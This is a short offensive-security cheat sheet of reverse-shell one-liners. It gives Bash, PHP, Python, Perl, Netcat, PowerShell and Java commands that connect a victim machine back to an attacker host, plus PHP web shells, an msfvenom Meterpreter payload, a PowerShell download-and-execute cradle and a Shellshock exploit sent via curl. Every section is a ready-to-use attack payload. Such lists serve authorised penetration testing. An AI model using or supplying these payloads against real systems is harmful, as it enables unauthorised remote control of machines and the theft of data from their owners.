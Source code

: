 # Reverse shells

## Bash

```bash
/bin/bash -i > /dev/tcp/<host>/<port> 0<&1 2>&1
```

## PHP

```php
<?php echo system($_REQUEST['wakeward']); ?>
```

```php
<?php echo shell_exec($_REQUEST['wakeward']); ?>
```

```bash
php -r '$sock=fsockopen("<host>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Meterpreter PHP reverse shell

    msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e php/base64 -f raw > ~/meter.php

## Netcat

Attacker:

```bash
nc -nlvp <port>
```

Victim:

```bash
nc -e /bin/sh <host> <port>
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <host> <port> >/tmp/f
```

> If option -e is not available

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<host>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl

```perl
perl -e 'use Socket;$i=<host>;$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Powershell

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<host>.ps1')"
```

## Shellshock

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker-ip>/<attacker-port> 0>&1; echo zzzz;'" \
  http://<victim>/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

## JAVA

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```